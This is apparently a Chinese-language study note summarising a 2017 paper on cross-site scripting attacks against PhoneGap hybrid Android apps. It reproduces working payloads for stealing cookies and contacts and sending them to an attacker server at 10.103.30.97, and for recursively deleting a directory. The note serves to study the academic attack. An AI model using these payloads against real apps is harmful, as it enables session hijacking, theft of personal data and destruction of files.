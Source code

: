 ```yaml
---
title: Cross-site Scripting Attacks on Android Hybrid Applications
tags: [Meeting Paper, NTU]

category: "Survey Papers > Android + Security"
---
```


# Cross-site Scripting Attacks on Android Hybrid Applications
:::info
Bao, W., Yao, W., Zong, M., & Wang, D. (2017, March). Cross-site scripting attacks on android hybrid applications. In Proceedings of the 2017 International Conference on Cryptography, Security and Privacy (pp. 56-61).
:::

這一篇論文雖然很舊了，但還是蠻有趣的
## Introduction
他在講的是現在市面上的App通常會用一些像是Apache Cordova(早期叫做PhoneGap)這類型的Hybrid框架製作一款App，但是PhoneGap的做法是利用WebView渲染畫面，因此就勢必會出現XSS相關的攻擊，這一篇論文就是在探討如何達成攻擊，以及受害範圍有多廣
* Gartner 的一份報告稱，Hybrid App在基於 HTML5 的 Web  App和本機 App之間提供了平衡，到 2016 年，將在超過 50% 的行動 App中使用
* 為了美化 UI 並在 JavaScript 程式碼中使用行動裝置的原生功能，Hybrid App必須包含第三方元件，而且它們的程式碼可能不可靠。
* 在本文的其餘部分，我們首先對WebView和PhoneGap框架的漏洞進行深入分析。 然後根據我們日常生活中行動應用的使用場景，建立了XSS攻擊混合應用的一般流程。 攻擊結果表明，對Hybrid App的 XSS 攻擊可能會對使用者的行動裝置造成更大的破壞性結果。
## Background
* What is PhoneGap?
    ![圖片](https://hackmd.io/_uploads/rJsdoZWX0.png)
    上圖顯示了PhoneGap App的架構以及如何和device component互動，當Hybrid App的某個功能需要使用 PhoneGap API 時， App可以使用 JavaScript 程式碼呼叫 API，然後 App中的特殊層將 PhoneGap API 呼叫轉換為適合幕後特定功能的device API。
## Proposed Method
* How XSS attack success on PhoneGap's App?
    ![圖片](https://hackmd.io/_uploads/SyPtsW-7R.png)
    有兩種方是可以達成這個攻擊
    * 首先從上圖可以知道，外部的資料有很多種型態，可能是一般文字、QRcode、藍牙等等媒介，而當傳送的資料出現malicious code的時候，PhoneGap Interface的App就會接收這些有問題的資料，並且直接被WebView所render，此時attacker就可以直接根據傳送的payload達到竊取機敏資料的目的
        > 在使用者的幫助下注入程式碼。 當使用者開啟將行動裝置連接到外界的通道時，將提供存取權限以允許來自另一個裝置的攻擊。 惡意程式碼是透過在不知不覺中與另一個裝置互動來注入的，然後按照與第一個裝置類似的流程來實現攻擊。
    * 另外一種則是直接嵌入有問題的code在網頁中，等到使用者瀏覽這個網頁的時候就會被PhoneGap的WebView所Render，達成和上面一樣的效果，類似傳統的攻擊，受害範圍則是cookies, session hijacking, location leaking...，用的function是`document.cookie`, `write()`, `appendChilld()`, `script` tag
## Experiment
作者提到，為了分析一些可能受到XSS攻擊的應用場景，這些 App都是使用PhoneGap框架開發的混合 App。 由於Google Play提供的大部分PhoneGap App要麼沒有使用某些存在漏洞的PhoneGap插件，要麼不顯示攻擊效果，因此很難使用真實的 App進行演示。 因此，他們demo了對他們自己的PhoneGap App的攻擊
### Cookie Stealing and Session Hijacking
作者把malicious code插在簡單的comment management system中，這個App是PhoneGap Framework做的，而且有storage XSS漏洞。如果這個 App是基於native language的，那麼JavaScript code將永遠不會被執行。 但是，在此 PhoneGap  App中，如果 App使用任何易受攻擊的 API 來顯示評論，則程式碼將在 WebView 內執行。
![圖片1](https://hackmd.io/_uploads/SJ6ehb-mR.png)
* 左邊的圖片:
    ```javascript!
    <script>alert(document.cookie)</script>
    ```
    網頁沒有任何異常情況下，作者只使用"append()" API為網頁新增註解。 透過JQuery API顯示評論字段，然後同時觸發注入的程式碼。 顯然，"append()" API 並不安全。 "innerHTML" API 比"append()"更安全，並且不會運行"script"標籤內的程式碼，因此作者可以使用"innerHTML" API 來替換。
* 中間的圖片:
    這就是用替換成innerHTML的結果，會發現這次的攻擊就沒有成功
* 右邊的圖片:
    ```javascript!
    <img src=x onerror= "alert(document.cookie )">
    ```
    但我們還是可以改變payload，讓攻擊可以成功，也就是用上述提到的第二列payload，結果就會如最右邊的截圖
---
當然我們也可以嘗試把得到的敏感資訊透過第三個payload傳出去給attacker，得到的response如下
```javascript!
<img src=x onerror= "new Image().src='http://10.103.30.97:80/cookies/attacker.php?cookie='%2bdocument.cookie">
```
![圖片](https://hackmd.io/_uploads/HJ9W2WZmC.png)
Attacker's Server Receive:
```!
http://10.103.30.97/cookies/manage.php?name=Admin&token=e3afed0047b08059d0fada10f400c1e5
```
### Steal Contact Data
這次攻擊的標的是QRcode，我們可以把惡意的code嵌入在QRcode當中，如果有利用PhoneGap的App掃描到這個QRcode，因為他是在WebView中進行render，所以這個malicious code會被triggered，這個App使用的是`phonegap-plugin-barcodescanner`這個plugin，當程式碼顯示時，`img`的`onerror`事件將會被觸發，然後使用者的聯絡資料將會傳送給攻擊者。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "navigator.contacts.find(['displayName','phoneNumbers'],
        function(c){
        r='';
            for(i=0;c[i];i++){
                if(c[i].phoneNumbers&&c[i].phoneNumbers.length){
                    r+=c[i].displayName+c[i].phoneNumbers[0].value+'\n';
            }}
            alert(r);
        new Image().src='http://10.103.30.97/c.php?d='+r; })" >
    ```
如果是用Native Language寫的App就會如左邊的圖片那樣只有顯示這個QRcode儲存的資訊，但如果是用PhoneGap寫的App，經過WebView render出來的結果，就會顯示手機的聯絡人資訊。他是用`navigator.contacts.find`這個API去呼叫PhoneGap的聯絡人plugin的Java code來搜尋使用者的聯絡人
![圖片2](https://hackmd.io/_uploads/B158hZWmR.png)

### Delete Files
這一次換成利用藍牙這個標的達成攻擊，原文提到: 
> 一般來說，如果一個應用程式具有藍牙傳輸功能，它必須能夠讀取和寫入用戶行動裝置上的文件

為了demo攻擊的效果，作者使用`cordova-plugin-bluetooth-serial`插件和`cordova-plugin-file`插件開發了一個PhoneGap應用程式。藍牙裝置的名稱是透過`innerHTML`API顯示的，安全性不夠，攻擊者可以將藍牙裝置的名稱更改為惡意程式碼來實現攻擊。 並且與前兩種設計類似的是再次使用了`onerror`事件。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "window.requestFileSystem(LocalFileSystem.PERSISTENT,0
        ,function(f){
            f.root.getDirectory('ID_5',null,
                function (e){
                    e.removeRecursively(
                        function(){
                            alert('Delete ID_5 Success!')
                    },null); },null); },null);">
    ```

同樣的如果用native app進行連線，就不會遇到攻擊的問題(如左圖)，但如果是用右圖的PhoneGap設計的App，`window.requestFileSystem()`要求系統存取根檔案系統並傳回一個對象，該物件儲存在`FileSystem`變數f中。 它的 root 屬性包含一個`DirectoryEntry`對象，表示目前檔案系統的根目錄。 所以我們使用`f.root.getDirectory()`來搜尋根目錄中的`ID_5`目錄。 當找到目錄時，將回傳值儲存在`DirectEntry`物件e中，並呼叫第5行至第9行中的回呼函數。 然後`ID_5`目錄的`DirectEntry`物件呼叫其名為`removeRecurively()`的方法來刪除`ID_5`中的所有檔案。 第8行，右圖顯示指定目錄刪除成功的通知。 
![圖片3](https://hackmd.io/_uploads/rkNt3--mR.png)